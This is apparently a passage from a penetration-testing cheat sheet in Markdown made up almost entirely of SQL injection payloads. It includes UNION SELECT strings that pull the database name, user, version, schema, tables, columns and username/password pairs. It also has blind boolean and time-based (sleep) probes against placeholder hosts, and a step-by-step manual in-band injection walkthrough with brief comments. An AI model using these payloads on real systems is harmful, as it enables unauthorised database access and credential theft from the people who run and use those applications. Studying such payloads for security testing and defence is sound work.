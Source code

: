 ```console
' UNION SELECT null, null, database(), user(), @@version  -- //
```

```console
' UNION SELECT null, table_name, column_name, table_schema, null FROM information_schema.columns WHERE table_schema=database() -- //
```

```console
' UNION SELECT null, username, password, description, null FROM users -- //
```

### Blind SQL Injection (SQLi)

```console
http://<RHOST>/index.php?user=<USERNAME>' AND 1=1 -- //
```

```console
http://<RHOST>/index.php?user=<USERNAME>' AND IF (1=1, sleep(3),'false') -- //
```

### Manual SQL Injection

#### Skeleton Payload

```console
SELECT ? FROM ? WHERE ? LIKE '%amme%';    // control over amme
SELECT ? FROM ? WHERE ? LIKE '%'%';       // errors out because of the single quote
SELECT ? FROM ? WHERE ? LIKE '%';-- %';   // wildcard wich equals = ';--
SELECT ? FROM ? WHERE ? LIKE '%hammer' AND 1 = SLEEP(2);-- %';    // blind sql injection because of sleep is implemented in mysql
SELECT ?,?,? FROM ? WHERE ? LIKE '%hammer' UNION (SELECT 1,2,3 FROM dual);-- %';    // UNION sticks together two columns and put it out; output queries to the screen is super bad!
```

- JOIN = merging columns 1 by 1
- UNION = appending

```console
SELECT ?,?,? FROM ? WHERE ? LIKE '%hammer' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3) FROM information_schema.tables;-- %';    // information_schema.tables is an information table
SELECT ?,?,? FROM ? WHERE ? LIKE '%hammer' UNION (SELECT COLUMN_NAME, 2,3 FROM information_schema.columns WHERE TABLE_NAME = 'users');-- %';
SELECT ?,?,? FROM ? WHERE ? LIKE '%hammer' UNION (SELECT uLogin, uHash, uType FROM users);-- %';
```

### Manual In-Band SQL Injection

> https://<RHOST>/article?id=3

```console
'    # causes error printed out on the page
1 UNION SELECT 1
1 UNION SELECT 1,2
1 UNION SELECT 1,2,3    # received a message about the columns
0 UNION SELECT 1,2,3    # output from two tables
0 UNION SELECT 1,2,database()    # received database name
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DATABASE>'
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.columns WHERE table_name = '<TABLE>'
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM <TABLE>
```
